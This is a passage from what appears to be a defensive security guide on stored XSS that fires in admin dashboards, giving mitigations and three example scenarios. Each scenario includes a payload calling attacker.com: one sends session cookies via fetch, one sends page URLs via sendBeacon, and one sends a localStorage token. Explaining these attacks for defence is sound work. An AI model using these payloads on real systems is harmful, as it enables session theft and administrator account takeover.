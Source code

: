 ### **(3) Monitoring and Logging**  
- Audit admin panels/logs for suspicious scripts.  
- Implement WAF rules to block known XSS payloads.  

### **(4) Least Privilege for Admin Views**  
- Render user-submitted content as plain text in admin dashboards.  
- Use iframes with sandbox attributes for unsafe content.  

---

## **Real-World Examples**  


### **1. Ticket Support Systems (Zendesk, Freshdesk)**
- **Scenario**: An attacker submits a malicious ticket with a JavaScript payload in the "description" field.
- **Execution**: When a support agent views the ticket in the admin panel, the payload executes, stealing their session cookie.
- **Impact**: Attacker gains unauthorized access to the support system and potentially customer data.

**Payload Used**:
```html
<script>fetch('https://attacker.com/steal?cookie=' + document.cookie);</script>
```

---

### **2. Web Application Logs (Apache/Nginx)**
- **Scenario**: An attacker injects a payload into HTTP headers (e.g., `User-Agent` or `Referer`).
- **Execution**: The payload is stored in server logs. When an admin reviews logs via a web interface, the script triggers.
- **Impact**: Sensitive server/application data is exfiltrated.

**Payload Used**:
```javascript
<img src=x onerror="navigator.sendBeacon('https://attacker.com/log', window.location.href)">
```

---

### **3. User Profiles with Admin Moderation**
- **Scenario**: A social media platform allows users to embed HTML in bios, which admins review before approval.
- **Execution**: The attacker submits a malicious profile with a hidden XSS payload. When an admin views it, the script runs.
- **Impact**: Admin accounts are compromised, leading to privilege escalation.

**Payload Used**:
```html
<svg onload="fetch('https://attacker.com/hijack?data=' + localStorage.getItem('token'))">
```

---